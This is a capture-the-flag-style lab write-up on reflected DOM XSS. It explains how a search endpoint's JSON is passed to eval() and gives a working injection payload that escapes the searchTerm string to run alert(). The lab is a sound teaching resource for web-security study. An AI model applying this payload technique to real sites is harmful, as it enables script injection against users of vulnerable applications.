 # Lab: Reflected DOM XSS

> This lab demonstrates a reflected DOM vulnerability. Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.

>To solve this lab, create an injection that calls the alert() function. 

### First steps
Investigating the page source, I found the following code `<script>search('search-results')</script>`. Looking at the network activity when submitting a search term, we can see that a file called `searchResults.js` is called. The `search` function shown in the script tag is defined inside this js file, so we can now read the code to find vulnerabilities in this function

I am capturing the requests and here is what I'm seeing:

`GET /?search=test` => `GET /search-results?search=test`

### searchResults.js
`eval()` is a known dangerous function in javascript, and we can see it be used on line 5 of searchrResults.js in this way `eval('var searchResultsObj = ' + this.responseText);`

We can also see that an XHR is used, so I went into the console and looked for xhr and found the following response for my search for "a":

 `{"results":[{"id":5,"title":"The Hearing Test","image":"blog/posts/22.jpg","summary":"A couple of months ago my flatmate went to have his hearing tested. We all thought he was just ignoring us, but as it turned out he was struggling to keep up with the conversations and decided better to be..."},{"id":1,"title":"Coping with Hangovers","image":"blog/posts/47.jpg","summary":"They say certain things get better with age, alas, not hangovers. I suppose the easiest thing to do would be to say well, just don't drink in the first place but as well all know, human nature dictates that we..."},{"id":2,"title":"It's All in the Game - Football for Dummies","image":"blog/posts/1.jpg","summary":"There are two types of people in the world; those who watch soccer, and those who watch people watching soccer. I fall into the latter category. If only they'd leave me in peace to drink my beer and zone out...."},{"id":3,"title":"I'm At A Loss Without It - Leaving Your Smartphone Behind","image":"blog/posts/55.jpg","summary":"The other day I left my purse in a friend's car. This led to the most disturbing 19 hours of my life until it was returned to me."},{"id":4,"title":"21st Century Dreaming","image":"blog/posts/2.jpg","summary":"Despite the number of differences in lifestyle between us humans, we can all have dreams with similar themes. I have very vivid dreams which appear like full-length movies. I have noticed changes as society and technology evolves."}],"searchTerm":"a"}`


We can see from this line `eval('var searchResultsObj = ' + this.responseText);` that we are evaluating this json blob... we can control the value of the "searchTerm" object. So the question now becomes, how do we insert malicious javascript into this json blob?

### Working towards a solution
I entered the search term `"-alert()-"` and the searchTerm object in the json shows `"\"-alert()-\""`

I entered the term `\"-alert()-` and got a js error: `Uncaught SyntaxError: "" literal not terminated before end of script`

I successfully executed the DOM XSS with this payload: `\"-alert()}//`

### Solution explained
In json, double quotes are to be replaced with `\"`, see https://www.tutorialspoint.com/json_simple/json_simple_escape_characters.htm

The above doublequote will close out the quote in the `searchTerm` object so that we have something like: `"searchTerm":"" `

`-alert()` triggers an alert, so our payload now looks like `"searchTerm":""-alert()`

`}` is the closing bracket, so that we have a valid json object... and `//` comments out the rest of the json blob

So the final searchTerm object looks like:

`"searchTerm":""-alert()}//`

Because this blob is running through the `eval` function, our alert will be triggered. Lab solved!



